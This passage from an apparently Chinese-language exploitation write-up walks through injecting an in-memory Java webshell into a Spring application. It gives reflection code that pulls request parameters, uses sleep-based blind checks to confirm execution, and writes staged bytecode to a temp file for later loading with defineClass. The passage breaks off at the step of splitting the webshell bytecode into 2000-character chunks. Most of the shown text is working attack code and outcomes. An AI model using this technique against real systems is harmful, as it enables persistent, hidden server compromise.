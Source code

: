 6）request parameter - 成功

测试代码
```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Object requestAttributes = classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("getRequestAttributes").invoke(null);
Object request = requestAttributes.getClass().getMethod("getRequest").invoke(requestAttributes);
String flag;
// 判断是否能取到通过 request parameter 传入的参数
flag = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"flag"});
if (flag != null && !flag.equals("")) {
    Thread.sleep(3000);
}
```

测试结果
- GET 成功、其他请求方式均失败

后续经过测试，得到 get parameter 能传递的内容长度大概在 2000左右，比 request header 的方式写入次数少一倍（优先方案）

**4、梳理利用思路**

从以上枚举结果可以得到以下方案:

- 在tmp目录创建文件
- 从 request parameter 处获取字节码内容依次追加到文件
- 加载完整字节码进行defineClass注入内存马

下面是具体的代码实现和利用过程

**5、第1次失败的利用**

1）创建文件 - 成功

```java
String fileName = "/tmp/code.txt";
String code = "";
File file = new File(fileName);
if (!file.exists()) {
    BufferedWriter writer = new BufferedWriter(new java.io.FileWriter(fileName, true));
    writer.write(code);
    writer.close();
    Thread.sleep(3000);
}
```

2）判断文件是否存在 - 成功

```java
File file = new File("/tmp/code.txt");
if (file.exists()) {
    Thread.sleep(3000);
}
```

3）拆分内存马的字节码，限制长度为 2000；

